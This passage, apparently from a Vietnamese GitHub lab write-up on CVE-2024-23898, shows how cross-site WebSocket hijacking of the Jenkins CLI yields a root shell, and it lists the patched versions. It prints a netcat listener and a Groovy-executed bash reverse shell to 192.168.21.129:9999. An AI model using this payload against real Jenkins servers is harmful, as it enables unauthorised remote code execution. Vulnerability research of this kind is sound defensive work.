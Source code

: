   Đoạn JS trên là tạo một command_hex, là một frame-packed binary command chứa chuỗi lệnh CLI Groovy cùng control bytes để server CLI hiểu đó là một command, trong đó sẽ thực hiện embed địa chỉ IP máy tấn công của ta (ở đây là 192.168.21.129) và sau đó có phần chứa port (port: 9999) để có thể callback khi reverse shell.

- Tương tự như cơ chế ở trên, đợi nạn nhân sập bẫy và mở trang web độc hại.

- Trên terminal khởi động **netcat listener** trên port 9999 để lắng nghe:

  ```bash
  nc -lvp 9999
  ```

- Exploit thành công, ta sẽ thấy trong WebSocket history toàn bộ inrteractions về quá trình trên, từ gửi yêu cầu cli `groovysh` và câu lệnh `['bash', '-c', '/bin/bash -c \'bash -i >& /dev/tcp/192.168.21.129/9999 0>&1\''].execute().waitFor()` như hình ảnh bên dưới:

  <img width="1912" height="685" alt="image" src="https://github.com/user-attachments/assets/c1e7ffa3-56c1-4ef8-b165-46e11b3e5cd7" />

  <img width="1919" height="680" alt="image" src="https://github.com/user-attachments/assets/d1952de8-3992-4ab9-9fef-f401440fcab8" />

- Trên console browser ta cũng có thể thấy toàn bộ log về phiên WS này:

  <img width="1919" height="786" alt="Screenshot 2025-10-05 174639" src="https://github.com/user-attachments/assets/be537088-e86a-4948-98fc-6bb567ab61b6" />

- Kiểm tra _netcat_ lắng nghe trên terminal:

  <img width="1681" height="761" alt="image" src="https://github.com/user-attachments/assets/b4c85090-c6ed-417d-980d-3b3985994164" />

  &rarr; Ta đã có một shell tương tác trên controller với quyền root

  &rarr; Reverse shell đã thành công: container (Jenkins) đã mở kết nối TCP tới máy tấn công, spawn bash, và ta đang tương tác trên prompt của root container.
  
  &rarr; **Thành công lợi dụng CSWSH để đạt được RCE trên controller Jenkins.**

- Amazing good jobs.

### Video đemo: [▶️ Xem demo RCE](./demo-cve-2024-23898/demo2.mp4)

### Khắc phục

- Bản vá bổ sung kiểm tra Origin cho endpoint CLI qua WebSocket. Sau khi cập nhật lên:

  - Jenkins 2.442 (regular), LTS 2.426.3 và LTS 2.440.1 sẽ kiểm tra Origin khi có yêu cầu upgrade WebSocket tới /cli.

  - Nếu Origin không hợp lệ thì handshake bị chặn → ngăn CSWSH.
 
- Nếu bản vá gây lỗi có thể tạm vô hiệu hóa cơ chế kiểm tra này bằng cách truyền Java system property sau vào JVM của Jenkins:

  ```bash
  -Dhudson.cli.CLIAction.ALLOW_WEBSOCKET=true
  ```

- Hoặc nếu chưa cập nhật được Jenkins, dùng một trong các biện pháp sau để giảm rủi ro:
